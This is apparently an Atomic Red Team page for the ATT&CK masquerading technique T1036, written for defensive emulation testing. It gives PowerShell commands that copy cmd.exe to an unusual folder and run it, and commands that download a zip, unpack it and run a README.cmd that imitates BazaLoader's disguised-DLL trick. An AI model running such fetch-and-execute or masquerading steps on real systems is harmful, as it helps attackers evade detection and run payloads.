 # T1036 - Masquerading
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1036)
<blockquote>Adversaries may attempt to manipulate features of their artifacts to make them appear legitimate or benign to users and/or security tools. Masquerading occurs when the name or location of an object, legitimate or malicious, is manipulated or abused for the sake of evading defenses and observation. This may include manipulating file metadata, tricking users into misidentifying the file type, and giving legitimate task or service names.

Renaming abusable system utilities to evade security monitoring is also a form of [Masquerading](https://attack.mitre.org/techniques/T1036).(Citation: LOLBAS Main Site)</blockquote>

## Atomic Tests

- [Atomic Test #1 - System File Copied to Unusual Location](#atomic-test-1---system-file-copied-to-unusual-location)

- [Atomic Test #2 - Malware Masquerading and Execution from Zip File](#atomic-test-2---malware-masquerading-and-execution-from-zip-file)


<br/>

## Atomic Test #1 - System File Copied to Unusual Location
It may be suspicious seeing a file copy of an EXE in System32 or SysWOW64 to a non-system directory or executing from a non-system directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 51005ac7-52e2-45e0-bdab-d17c6d4916cd






#### Attack Commands: Run with `powershell`! 


```powershell
copy-item "$env:windir\System32\cmd.exe" -destination "$env:allusersprofile\cmd.exe"
start-process "$env:allusersprofile\cmd.exe"
sleep -s 5 
stop-process -name "cmd" | out-null
```

#### Cleanup Commands:
```powershell
remove-item "$env:allusersprofile\cmd.exe" -force -erroraction silentlycontinue
```





<br/>
<br/>

## Atomic Test #2 - Malware Masquerading and Execution from Zip File
When the file is unzipped and the README.cmd file opened, it executes and changes the .pdf to .dll and executes the dll. This is a BazaLoader technique [as reported here](https://twitter.com/ffforward/status/1481672378639912960)

**Supported Platforms:** Windows


**auto_generated_guid:** 4449c89b-ec82-43a4-89c1-91e2f1abeecc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | Location of zip file | Url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1036/bin/T1036.zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Expand-Archive -Path $env:userprofile\Downloads\T1036.zip -DestinationPath $env:userprofile\Downloads\T1036 -Force
cd $env:userprofile\Downloads\T1036
cmd /c $env:userprofile\Downloads\T1036\README.cmd >$null 2>$null
```

#### Cleanup Commands:
```powershell
taskkill /IM Calculator.exe /f >$null 2>$null
Remove-Item $env:userprofile\Downloads\T1036 -recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Zip file must be present.
##### Check Prereq Commands:
```powershell
if (Test-Path $env:userprofile\Downloads\T1036.zip) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest -OutFile "$env:userprofile\Downloads\T1036.zip" #{url}
```




<br/>
